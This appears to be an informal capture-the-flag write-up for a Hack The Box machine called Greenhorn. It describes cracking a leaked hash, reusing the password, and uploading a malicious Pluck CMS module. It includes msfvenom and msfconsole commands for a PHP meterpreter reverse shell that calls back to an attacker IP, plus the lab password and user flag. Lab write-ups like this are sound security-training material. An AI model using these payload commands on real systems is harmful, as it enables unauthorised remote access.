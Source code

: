 At port 80 we have a pluck application 
On first analysis i cant find a exploit for that.

At port 3000 we have an git repository server powered by gitea
i found a repository of the application on port 80

The repository has a file called pass.php
this file has the hash:

d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163

this hash is a sha 512 of the strig:

iloveyou1

this string can be the master admin password

i logged on admin pluck plaform.
We can upload a module for pluck.
I dowloaded a test module and inject a shell on this module.
With this shell i logged on machine as www-data user.

i founded the user.txt file on folder /home/junior  but i havent permission to read

i used msfvenon to create a backdoor, i uploaded a new shell and used msfconsole to exploit.

terminal:
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.27 LPORT=9001 -f raw -o shell.php LPORT=9001 -f raw -o shell.php


msfconsole:
set LHOST 10.10.14.27
set LPORT 9001
set PAYLOAD php/meterpreter/reverse_tcp
exploit

i ran the url :
http://greenhorn.htb/data/modules/simple/shell.php

and the backdoor exploit was executed with success

tried the recon
multi/recon/local_exploit_suggester .... nothing founded


I ran the linpeas script...nothing

i tried to use the pluck admin password with junior user:

command `su - junior`

used the password iloveyou1

booooom


cd /home/junior
cat user.txt
6a726a101baa431fced0240a747825af



